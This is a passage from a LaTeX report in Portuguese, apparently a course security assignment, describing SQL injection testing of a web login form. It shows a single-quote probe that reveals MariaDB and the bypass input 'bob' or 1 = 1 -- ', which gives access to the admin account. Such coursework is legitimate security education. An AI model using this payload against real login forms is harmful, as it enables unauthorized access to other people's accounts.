        
\includegraphics[width=\textwidth]{images/login_type_1.png}
        \caption{Teste inicial de \textit{SQL Injection}}}
    \end{figure}
    
    \clearpage
    
    \par Com esta substituição, foi possível verificar se este formulário está vulnerável com uma simples \textbf{\textit{'}} no email e qualquer password. Esta vulnerabilidade confirmou-se, bem como o SGBD sendo \textit{MariaDB}:
    
    \begin{figure}[!h]
        \centering
        
\includegraphics[width=400]{images/login_error.png}
        \caption{Teste inicial de \textit{SQL Injection}}
    \end{figure}
    
    \par A partir daqui e, aplicando os conceitos aplicados nas aulas práticas, foi bastante fácil aceder à conta do primeiro utilizador da aplicação, o \textit{admin}. Inserindo, por exemplo \textit{bob' or 1 = 1 -- }, a condição de \textit{SELECT} retornará sempre um utilizador pois 1 é sempre igual 1, ignorando todas as restantes verificações a seguir na \textit{query}, podendo ser colocada qualquer \textit{password}:
    
     \begin{figure}[!h]
        \centering
        
\includegraphics[width=\textwidth]{images/login_type.png}
        \caption{\textit{SQL Injection} para permitir realizar o \textit{login}}
    \end{figure}
    
    \begin{figure}[!h]
        \centering
